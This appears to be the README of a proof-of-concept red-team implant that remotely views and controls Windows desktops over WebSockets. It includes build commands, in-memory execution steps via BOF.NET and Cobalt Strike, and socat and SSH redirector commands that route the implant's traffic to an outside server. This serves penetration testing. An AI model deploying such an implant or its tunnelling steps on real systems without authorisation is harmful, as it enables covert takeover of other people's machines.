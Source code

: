 # Reinschauer

![Hello](https://github.com/ps1337/reinschauer/blob/main/server/reinschauer.jpg?raw=true)

A PoC to remotely control Windows machines over Websockets.

![Hello](https://github.com/ps1337/reinschauer/blob/main/res/reinschauer.gif?raw=true)

- Can be executed as Go exe, .NET/C# exe and in-memory using [BOF.NET](https://github.com/CCob/BOF.NET) and Cobaltstrike.

![Hello](https://github.com/ps1337/reinschauer/blob/main/res/reinschauer_start.png?raw=true)

- Traffic can be tunneled via an interactive Beacon connection.
- Other than most HVNC implementations, `reinschauer` converts raw bitmaps to JPEG and compresses the resulting data before sending it across the network to reduce frame size.
- FPS and quality settings can be dynamically changed via the GUI. These affect the implant, so that network traffic is reduced. Dynamic scaling allows using this tool as an implant for machines with large screens.

![Hello](https://github.com/ps1337/reinschauer/blob/main/res/goodquality.gif?raw=true)

- Basic mouse and keyboard controls are possible.
- You can use the script in the `server` folder to generate TLS server files or bring your own.
- The server window can be resized freely, while click events should™ be translated to the correct pixel on the target machine.
- Use `reinschauer-server -h` for available options.

## Protocol

```
+----------------------------------------------------------------------------------------+
|                                                                                        |
|                                                                                        |
|                  +----------------------------------------------------+                |
|                  |#1: Type (Binary or Text)                           |                |
|                  |    Binary: JPG Frame                               |                |
|                  |                                                    |                |
|                  |#2: Text                                            |                |
|                  |    ELO (Ping)                                      |                |
|                  |    FPS <FPS Count>                                 |                |
|                  |    SCL <Scaler Count>                              |                |
|                  |    QUL <JPG Quality>                               |                |
|                  |    LCL X Y (Left Click + Coordinates)              |                |
|                  |    RCL X Y                                         |                |
|                  |    KEY <Char>                                      |      xxxxxx    |
|       xxxxx   <--+----------------------------------------------------+--> xxxx   xx   |
|       x   xx                     Websockets via TLS                        xx       x  |
| x     xxxxxx                                                                xxxxxxxxx  |
| xxx     x   xx                                                          xx    x        |
|     xxxxxxxx                                                              xxxxx xxxxxx |
|         x                                                                   xxxxx      |
|         xx                                                                   xx        |
|         x xx                                                                 xxx       |
|        xx  xx                                                                x xx      |
|        x    xx                                                              xx  xxx    |
|       x      xx                                                             x     xx   |
|       x       x                                                            xx      x   |
+----------------------------------------------------------------------------------------+
```

## FAQ

**How to build?**

- Install a new version of golang, `>=1.18`
- For debian-based distros: `sudo apt -y install libx11-dev libxcursor-dev xorg-dev libgl1-mesa-dev`

```bash
$ cd client && GOOS=windows GOARCH=amd64 go build
$ cd server && GOOS=linux GOARCH=amd64 go build
```

I've included a pre-built and standalone version of the dotnet variant in this repo. If you want to build it yourself, use the Visual Studio project file to build the x64 Release variant. If it doesn't happen automatically, download the required NuGet packages for the project via Visual Studio. Your target system most likely doesn't have these packages installed as well and therefore DLLs may be missing when executing the resulting exe on the target. To get around this, this project automatically invokes `ILMerge.exe` to bundle the resulting exe along with the required libraries. Therefore, use the generated file called `reinschauer-dotnet-standalone.exe` on targets.

> You may have to `go get` stuff before. Use `-ldflags -H=windowsgui` to disable to console window.

**Who's the client/server?**

> The `client` is executed on the target (Windows) machine. The `server` component is executed on the tester's (Linux) machine. It listens on `0.0.0.0:6969` by default. Both the Golang and C# client are compatible with the server.

**Is this a HVNC / Hidden Desktop?**

> No. It uses the same Desktop as the user.

**Some keys and key combinations do not work, pls fix**

> I know that |, @ and § might not work currently, at least on my german potato keyboard. Pls Fix.

**The Client uses too much CPU Time**

> Using a lower FPS value may work.

**I don't have a direct connection between `client` and `server`**

> You can use the Cobaltstrike CNA script, which tunnels traffic via Beacon.

**I don't have Cobaltstrike!**

> Use a `socat` redirector like:

```bash
socat TCP4-LISTEN:1337,fork TCP4:127.0.0.1:6969
ssh -R 6969:localhost6969 <IP>
```

> and start the client with the required parameters or hardcode them.

## Notes Regarding BOF.NET and Cobaltstrike Usage

First, set up [BOF.NET](https://github.com/CCob/BOF.NET) according to the manual. Also, load the standalone exe with `bofnet_load <Path to Exe>`. Then, decide how to use Reinschauer:

1. You can tunnel the traffic across an active Beacon connection.
2. You can send traffic to any other Internet-facing server

### Tunnelling Traffic via Beacon

- Set the session to interactive: `sleep 0`.
- Set up remote port forwarding: `rportfwd_local 6969 127.0.0.1 6969`.
- Execute Reinschauer in background: `bofnet_job reinschauer_dotnet.BofStuff`. This automatically causes Reinschauer to connect to `127.0.0.1:6969` on `127.0.0.1` of the target machine. This also deactivates TLS, since it uses the Beacon connection anyway.
- To kill Reinschauer, use `bofnet_jobkill <Job ID>`.

*Important note regarding remote port forwarding:* It seems that the `rportfwd_local` causes Beacon to listen on `0.0.0.0` and there seems to be no way to set it to `127.0.0.1` :/ This may trigger a Windows Firewall prompt on the system and that's not cool. If you don't want this, use another remote port forwarding solution for Cobaltstrike or use the following approach.

### Sending Traffic to Another Server

- Execute Reinschauer in background: `bofnet_job reinschauer_dotnet.BofStuff <Server IP> <Server Port> true`. The boolean parameter enables TLS usage.
- To kill Reinschauer, use `bofnet_jobkill <Job ID>`.


Then, use SSH and the [GatewayPorts](https://man.openbsd.org/sshd_config#GatewayPorts) feature: Add `GatewayPorts: clientspecified` to `sshd_config` and restart the SSH server. Then, `ssh -R '0.0.0.0:8080:localhost:6969'' [...]` will make your local port `6969` available on `0.0.0.0:8080`. Then, start the client with the required parameters or hardcode them. Be careful :)

or, set up a `socat` redirector on the Server:

```bash
socat TCP4-LISTEN:<Server Port>,fork TCP4:127.0.0.1:6969
ssh -R 6969:localhost6969 <IP>
```

